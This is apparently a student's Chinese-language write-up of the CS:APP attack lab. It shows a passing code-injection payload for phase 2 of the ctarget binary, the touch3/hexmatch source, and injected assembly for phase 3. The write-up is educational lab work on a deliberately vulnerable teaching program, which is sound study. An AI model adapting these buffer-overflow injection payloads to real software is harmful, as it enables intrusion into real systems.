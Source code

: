 输入运行。

```bash
2017211523@bupt3:~/target117$ ./hex2raw < phase2 | ./ctarget -q
Cookie: 0x63149380
Type string:Touch2!: You called touch2(0x63149380)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	2017211523
	course	f18
	lab	attacklab
	result	117:PASS:0xffffffff:ctarget:2:48 C7 C7 80 93 14 63 68 CC 16 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 A8 F7 66 55 00 00 00 00 
```

#### phase_3

查看touch3

```cpp
void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
	printf("Touch3!: You called touch3(\"%s\")\n", sval);
	validate(3);
} else {
	printf("Misfire: You called touch3(\"%s\")\n", sval);
	fail(3);
}
	exit(0);
}
```

可知其需要一个指向字符的指针sval，然后调用hexmatch，将cookie和sval作为参数传入，需要hexomatch返回非零值。

```cpp
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

由hexmatch可知，其比较cookie的字符串表示与传入的字符串是否相等，相等则返回1，那么问题明了，我们需要将表示cookie的字符串地址传给touch3，与第二题不同的是字符串需要有空间保存，我们需要在栈中找出调用hexmatch时候未被重写改变的空间，借以保存字符串。

```assembly
mov     $0x5566f7c8,%rdi
pushq   $0x4017a0
ret
```
